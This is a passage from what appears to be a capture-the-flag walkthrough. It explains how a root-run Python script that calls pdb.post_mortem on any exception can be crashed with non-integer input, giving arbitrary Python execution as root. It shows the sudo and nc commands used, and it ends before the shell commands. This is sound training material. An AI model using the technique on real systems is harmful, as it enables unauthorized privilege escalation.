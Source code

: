 ```
[2] View free memory
[3] View listening sockets
[4] Quit
4
Bye

```

### Exploit

The problem in this script is in how it handles errors. There’s an `except` block for any exception that calls the Python Debugger, `pdb`:

```

except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)

```

`pdb` is great, but it will allow the user interacting with it to run arbitrary Python commands. So if I can make the script throw an exception, I can run commands as root.

The obvious place to generate an exception is here:

```

option = int(clientsock.recv(1024).strip())

```

My input is passed to `int()`. If I give it something that isn’t an integer, Python will raise a `ValueError` exception.

I’ll start the listener again as root:

```

user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:11563

```

Now I’ll connect, give the password, and give a non-integer as the menu option:

```

user@forge:~$ nc 127.0.0.1 11563
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
0xdf

```
